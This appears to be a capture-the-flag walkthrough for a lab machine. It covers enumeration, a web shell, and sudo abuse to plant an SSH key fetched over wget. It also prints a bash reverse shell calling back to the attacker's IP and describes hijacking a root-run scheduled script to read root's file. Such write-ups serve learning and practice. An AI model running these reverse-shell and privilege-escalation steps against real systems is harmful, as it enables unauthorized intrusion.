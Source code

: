 # Solution

Start with the usual nmap enumeration
```
nmap -sC -sV -oN nmap-initial 10.10.10.68
```
 Only port 80 is open.  

We run gobuster
```
gobuster dir -u http://10.10.10.68 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 25
```
And we get a bunch of directories. We visit /dev and we have an interactive shell provided by phpbash.php as expected when browsing the website.  
If we go to /home/arrexel we can find the user flag.  

We know want to escalate our privileges to root.

We run sudo -l and we have the following:
```
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It means that we can run every command as scriptmanager.We try if it is actually possible. First we go in the home directory of scriptmanager, then we try to create a .ssh folder (it is not possible for user www-data)

---
Don't do like me, what I'm doing right now is stupid ... 
```
sudo -u scriptmanager bash -c "mkdir .ssh"
```
It actually works. We can thus proceed to copy our local rsa public key  to the authorized_keys of scriptmanager in order to have a more comfortable access. We set up a fast web server in our local machine
```
python3 -m http.server
```
In the remote machine we download the id_rsa.pub file and we rename it to authorized_keys.  
```
sudo -u scriptmanager bash -c "wget 10.10.14.25:8000/id_rsa.pub"
sudo -u scriptmanager bash -c "mv id_rsa.pub .ssh/authorized_keys"
```
We also adjust the access privileges to .ssh
```
sudo -u scriptmanager bash -c "chmod 600 .ssh"
```
 I'm idiot, the ssh port is not open ....
--- 

Let's back to our path to root.  
We can create a file with a reverse shell owned by scriptmanager in the remote machine. To avoid escape problems, we create in the local machine and transfer it in the remote machine. 10.10.14.25 is the address of my local machine where i set up a netcat istener on port 4444. The file we generate carries a reverse shell:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/4444 0>&1
```

We can execute it as scriptmanager:
```
sudo -u scriptmanager bash -c "chmod 777 shell.sh"
sudo -u scriptmanager bash -c "./shell.sh"
```

Then we run LinPeas. We see that the directory /script has been recently updated (linpeas also highlighted this as a suspicious behaviour). This means that a kind of scheduled script execution is in place.  
Inside of the /script directory we see a python file and a txt file (owned by root) which is the output of the python file. We can easily exploit this configuration to escalate our privileges.  

We can have the root flag by writing some easy python lines
```
f=open("test.sh","w")
fr=open("/root/root.txt","r")
f.write(fr.readline())
f.close()
fr.close()
```
We wait for the next automatic execution of the script (withing 1 minute) and we can retrieve the root flag by reading the txt file.  
